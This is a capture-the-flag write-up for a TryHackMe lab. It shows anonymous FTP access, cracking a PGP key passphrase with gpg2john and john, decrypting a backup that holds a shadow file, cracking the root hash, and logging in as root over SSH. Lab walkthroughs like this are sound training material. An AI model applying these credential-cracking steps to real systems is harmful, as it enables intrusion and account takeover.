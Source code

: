 #ftp #pgp #asc #john

https://tryhackme.com/r/room/bsidesgtanonforce

---
#### Nmap
![[Screenshot_2024-05-13_15-05-38.png]]
```shell
ftp 10.10.236.90 21
```

Credentials: `Anonymous:[nopassword]`
Got the user.txt with `get user.txt` in user's home directory

Now I need to do a reverse shell
After 2 hours, I finally found how to execute shell command through ftp
```shell
! cat user.txt
```

Big mistake, the `!` just pull me out of ftp in MY shell

I realized there was a directory named `notread` at the root of the machine. There was 2 files in there:
![[Screenshot_2024-05-13_17-23-46.png]]

I took them with `get` on my local machine and I use gpg2john to try to crack the key:
```shell
gpg2john private.asc > hash
```

It gave me a file that I've used in john:
```shell
john hash --wordlist=/usr/share/wordlistd/rockyou.txt
```

![[Screenshot_2024-05-13_17-29-58.png]]

So I decrypted `-d` the `backup.pgp` file with the password `xbox360`:
```shell
gpg -d backup.pgp
```
I've could have used the `--import` before:
```shell
gpg --import private.asc
```

I've got what seems to be the /etc/shadow file, here is the root hash:
```shell
$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0
```

Then I've just had to use identify the hash and crack it with john again:
```shell
john --format=sha512crypt hash2 --wordlist=/usr/share/wordlists/rockyou.txt
```

And the root password is `hikari`

```shell
ssh root@10.10.236.90
```

